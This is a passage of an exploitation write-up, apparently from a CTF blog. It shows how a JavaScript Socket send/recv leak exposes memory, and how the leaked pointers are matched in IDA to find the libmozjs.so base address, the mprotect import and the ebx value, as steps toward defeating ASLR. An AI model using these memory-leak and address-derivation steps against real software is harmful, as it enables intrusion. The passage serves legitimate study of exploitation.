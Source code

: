 <pre>var socket = new Socket();
socket.send("AAAA", 0x10000);
socket.recv(0x428);</pre>

Now we should have more possible addresses. This memory might not be exactly what you see, but it is enough to understand. And there is probably a more reliable way of doing this, making use of the javascript engine&#8217;s garbage collector.

<pre>0004290: 0100 0000 0000 0000 a0e7 edb7 4096 fdb7  ............@...
00042a0: 0000 0000 6c20 0708 9838 0708 4096 fdb7  ....l ...8..@...
00042b0: 0080 0708 0080 0708 7080 0708 1600 0000  ........p.......
00042c0: 1600 0000 0000 0000 0000 0008 0000 0000  ................
00042d0: 80b5 edb7 0000 0000 0000 0000 3422 0708  ............4"..
00042e0: 9838 0708 4096 fdb7 0080 0708 0080 0708  .8..@...........
00042f0: a880 0708 1600 0000 1600 0000 0000 0000  ................
0004300: 0000 0008 0000 0000 60b5 edb7 0000 0000  ........`.......
0004310: 0000 0000 3c22 0708 9838 0708 4096 fdb7  ....&lt;"...8..@...
0004320: 0080 0708 0080 0708 e080 0708 1600 0000  ................
0004330: 1600 0000 0000 0000 0200 0008 0000 0000  ................
0004340: 90b7 edb7 0000 0000 0000 0000 4c21 0708  ............L!..
</pre>

In this area of output, we see several addresses that look plausible: b7ede7a0, b7edb560, b7edb580, b7edb790. Let&#8217;s try and match these to something in IDA (this is easier to do if you do this procedure once locally with *gdb*). An easy place to start is by searching the function window in IDA for 560 and then look near it for functions that end with 580 and 790. The only addresses that match this are: 51560, 51580, and 51790.

We now have a candidate base address (0xB7E8A000), which we will try to verify using the other addresses we gathered.

<pre><pre>b7ede7a0 -&gt; 547a0 (start of a function)
</pre>


<p>
  You can increase your confidence by looking at more addresses, but this looks good to me.
</p>


<p>
  So let&#8217;s assume that <em>libmozjs.so</em> is mapped starting at <em>0xB7E8A000.</em> This means that the <em>mprotect</em> import is at 0xB7E98EF0. We also need one more detail. Since this function is located inside of a dynamic library, and it isn&#8217;t exported, it is assumed that <em>ebx</em> is correct. Using almost any export, you can figure out this address. Take <em>JS_ResumeRequest</em> as an example:
</p>


<pre>.text:00013D5C                 call    sub_F277
.text:00013D61                 add     ebx, 13A0CBh
</pre>


<p>
  So, ebx = <em>0xB7E8A000 + 0x13D61 + 0x13A0CB = 0x</em>B7FD7E2C. We can set ebx since it is restored in the <em>recv</em> function right before the <em>leave</em> instruction.
</p>
